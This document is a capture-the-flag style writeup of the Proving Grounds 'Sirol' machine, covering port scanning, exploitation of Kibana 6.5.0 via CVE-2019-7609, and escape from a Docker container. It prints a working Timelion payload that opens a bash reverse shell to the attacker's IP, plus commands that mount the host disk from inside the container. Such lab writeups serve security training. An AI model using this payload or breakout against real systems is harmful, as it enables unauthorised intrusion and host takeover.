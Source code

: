 ```yaml
---
description: Proving Grounds PG Practice Sirol writeup
---
```


# Sirol

## Nmap

```
sudo nmap 192.168.64.54 -p- -sS -sV

PORT      STATE  SERVICE   VERSION
22/tcp    open   ssh       OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
53/tcp    closed domain
80/tcp    open   http      Apache httpd 2.4.25 ((Debian))
3306/tcp  open   mysql     MariaDB (unauthorized)
5601/tcp  open   esmagent?
24007/tcp open   rpcbind
```

Port 5601 is hosting Kibana. Looking through the management option on the left shows we are running version 6.5.0.

![http://192.168.64.54:5601/app/kibana#/management?\_g=()](<../../../.gitbook/assets/image (866) (1).png>)

Researching vulnerabilities on Google regarding this version takes us to a RCE exploit abusing the Timelion feature.

{% embed url="https://github.com/mpgn/CVE-2019-7609" %}

From here I used the second payload shown on the GitHub and pasted this into Timelion to point back to my IP and port 5601.

```bash
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/<IP>/5601 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

{% hint style="info" %}
If you are unable to get code execution reset the machine and try again in a incognito browser window.
{% endhint %}

![](<../../../.gitbook/assets/image (867).png>)

From here and as per the GitHub instructions hit the run button and then set up a `netcat` listener to the specified port.

After then browsing to the 'Canvas' page we should receive a root shell back on our listener.

![](<../../../.gitbook/assets/image (868).png>)

Listing everything inside the '/' directory shows a .dockerenv file. This combined with the hostname of 0873e8062560 means we are likely running inside a docker container.

![](<../../../.gitbook/assets/image (869).png>)

Using the command `fdisk -l` we can list the hosts disks.

![](<../../../.gitbook/assets/image (870).png>)

We can then create a directory and attempt to mount **/dev/sda1** to it so we can see if we can browse the hosts file system.

```bash
mkdir /mnt/own
mount /dev/sda1 /mnt/own
cd /mnt/own
```

![](<../../../.gitbook/assets/image (871).png>)

## References:

* [https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)
* [https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)
